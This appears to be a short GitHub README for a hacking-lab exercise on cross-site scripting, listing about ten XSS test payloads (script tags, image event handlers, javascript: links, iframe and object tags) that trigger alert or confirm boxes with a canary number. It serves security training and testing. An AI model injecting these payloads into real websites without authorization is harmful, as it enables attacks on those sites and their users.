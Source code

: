 # hackinghub

## xss  
[https://app.hackinghub.io/hubs/nbbc-xss](https://app.hackinghub.io/hubs/nbbc-xss)    

### Example XSS Payloads  
- The number `19628397001` is just a random number that can be used as a [canary](https://portswigger.net/burp/documentation/desktop/tools/dom-invader/settings/canary) to search proxy history for the value.  

```
<script>alert(19628397001)</script>
<script>alert(19628397001)
<script>alert(19628397001);//</script>
<script>confirm(19628397001);//</script>
<img src=xxxxx onmouseover=alert(19628397001)>
<img src=xxxxx onerror=alert(19628397001)>
<a href=javascript:alert(19628397001)>xsstest</a>
<a href=javascript:alert(19628397001)>xsstest
<iframe src=javascript:alert(19628397001)>
<object data="data:text/html,<script>alert(19628397001)</script>"></object>
```


